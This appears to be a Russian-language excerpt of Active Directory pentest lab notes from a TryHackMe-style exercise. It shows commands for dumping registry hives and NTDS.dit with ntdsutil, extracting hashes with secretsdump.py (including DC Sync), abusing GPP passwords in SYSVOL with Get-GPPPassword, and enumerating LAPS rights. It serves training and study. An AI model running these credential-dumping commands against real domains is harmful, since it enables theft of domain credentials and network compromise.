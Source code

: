 ```cmd
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\config\SECURITY
```

```Сброс содержимого файла NTDS с машины-жертвы
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```

```bash
secretsdump.py -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local
```
## DC Sync
```bash
secretsdump.py -just-dc THM.red/<AD_Admin_User>@10.10.111.45
```
___
# Решение для пароля локального администратора (LAPS)
### Настройки групповой политики (GPP)
GPP — это инструмент, позволяющий администраторам создавать политики домена со встроенными учетными данными.  После развертывания GPP в папке SYSVOL создаются различные файлы XML . SYSVOL — это важный компонент Active Directory, который создает общий каталог на томе NTFS, к которому все аутентифицированные пользователи домена могут получить доступ с разрешением на чтение.
Проблема заключалась в том, что соответствующие GPP XML- файлы содержали пароль, зашифрованный с помощью шифрования AES -256 бит. В то время шифрование было достаточно хорошим, пока Microsoft каким-то образом не опубликовала свой закрытый ключ на [MSDN](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN) . Поскольку пользователи домена могут читать содержимое папки SYSVOL, становится легко расшифровать сохраненные пароли. Одним из инструментов для взлома зашифрованного пароля SYSVOL является  
```http
https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
```

### Перечислить для LAPS
В 2015 году Microsoft удалила хранение зашифрованного пароля в папке SYSVOL. Она представила Local Administrator Password Solution (LAPS), который предлагает гораздо более безопасный подход к удаленному управлению паролем локального администратора.

Новый метод включает два новых атрибута (ms-mcs-AdmPwd и ms-mcs-AdmPwdExpirationTime) объектов компьютера в Active Directory.  Атрибут `ms-mcs-AdmPwd`содержит открытый текстовый пароль локального администратора, а `ms-mcs-AdmPwdExpirationTime`содержит время истечения срока действия для сброса пароля. LAPS использует `admpwd.dll`для изменения пароля локального администратора и обновления значения `ms-mcs-AdmPwd`.

```powershell
dir "C:\Program Files\LAPS\CSE"
```
Доступные команды для использования в `AdmPwd`командлетах следующим образом
```powershell
Get-Command *AdmPwd*
```
Обратите внимание, что получение доступных OU может быть выполнено на этапе перечисления. Наша цель OU в этом примере — `THMorg`. Вы можете использовать  `-Identity *`  аргумент для получения списка всех доступных OU.
```powershell
Find-AdmPwdExtendedRights -Identity THMorg
```
